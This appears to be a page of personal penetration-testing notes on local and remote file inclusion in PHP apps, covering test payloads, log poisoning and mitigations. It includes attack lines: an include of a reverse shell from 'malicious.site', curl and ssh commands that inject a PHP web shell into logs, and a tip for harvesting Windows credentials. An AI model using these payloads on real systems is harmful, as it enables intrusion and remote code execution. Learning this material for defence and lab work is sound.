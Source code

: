 # File inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

A web application might import/include files based on data from the user. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the user input isn't properly sanitized, the user may be able to control which files are included, which may allow them:

* 🗺️ To read local or remote files
* 📚 To leverage a [SSRF](ssrf.md) attack <small>(port mapping, steal files, etc.)</small>
* 🐲 To execute code <small>(either uploaded code, remote code, or using logs)</small>

Code/data exposure may further compromise the infrastructure.
</div><div>

There are two categories of file inclusion:

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

<br>

Additional notes:

* 🤖 Not all include functions can execute code
* 📌 Template engines are more likely to contain LFI/RFI.
* 🐲 While LFI/RFI often involve HTTP, we can also use `ftp://`
* 🔑 Try `\\YOURIP\share\` RFI on Windows to [harvest credentials](/cybersecurity/red-team/_knowledge/topics/request_grabber.md)
* 😎 For RFI, try a local URLs first <small>(ex: `http://127.0.0.1:80/index.php`)</small>, as remote URLs may be blocked by a firewall
</div></div>

<hr class="sep-both">

## Basic Methodology

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI/RFI:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* 🏠 Stored data such as usernames <small>(if they are used in paths)</small>
* ...

You might try to play around with the value to see if it works.

For a list of interesting files to read, aside from the website source code and configuration files, refer to [arbitrary file read](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md).
</div><div>

Assuming we have `page=about`.

* Test Path: `./about`
* Test Null-Byte: `./about.php%00`
* Test [Path Traversal](path_traversal.md): `../<folder name>/about`
* Test engine-specific payloads, such as `php://filter`
* Test Remote File Inclusion
* ...

⚠️ Refer the source code in priority to understand filtering <small>(if any)</small>.
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)
[![local_file_inclusion](../../../../_badges/rootme/web_server/local_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
[![remote_file_inclusion](../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)
[![local_file_inclusion_double_encoding](../../../../_badges/rootme/web_server/local_file_inclusion_double_encoding.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)
[![samcms](../../../../_badges/rootme/realist/samcms.svg)](https://www.root-me.org/en/Challenges/Realist/SamCMS)
[![marabout](../../../../_badges/rootme/realist/marabout.svg)](https://www.root-me.org/en/Challenges/Realist/Marabout)

<div class="row row-cols-lg-2"><div>

The URL `http://example.com/?lang=fr` associated with the code below is an example of a vulnerable PHP code.

```php!
include "lang/$_GET[lang].php" // It loads lang/fr.php
```

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png";
include "phar://<refer to php wrappers>";
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php";
include "data://<refer to php wrappers>";
```
</div><div>

💥 PHP `include`/`require` function executes PHP code.

⚔️ We can use [Path traversal](path_traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack or execute code.

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## Log Poisoning

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)
[![archangel](../../../../_badges/thm-p/archangel.svg)](https://tryhackme.com/r/room/archangel)

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

Common logs and their location can be [found here](/cybersecurity/blue-team/topics/logs.md#common-log-files-locations).
</div></div>

<hr class="sep-both">

## File Inclusion Filter Bypass

Refer to [Path Traversal Bypass filters](path_traversal.md#path-traversal-bypass-filters).

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

[![fileinclusion](../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![filepathtraversal](../../../../_badges/thm/filepathtraversal.svg)](https://tryhackme.com/r/room/filepathtraversal)

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If paths are allowed, refer to path traversal mitigation

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🛡️ In PHP, disable unused dangerous settings such as `allow_url_fopen` or `allow_url_include`.

* 📚 Use additional tools such as a WAF, etc.

Refer to [PHP Security And Bypasses](/programming-languages/web/php/_general/index.md#php-security-and-bypasses-).
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Second Order Attack (poisoned database entry)
* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.6k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div><div>
</div></div>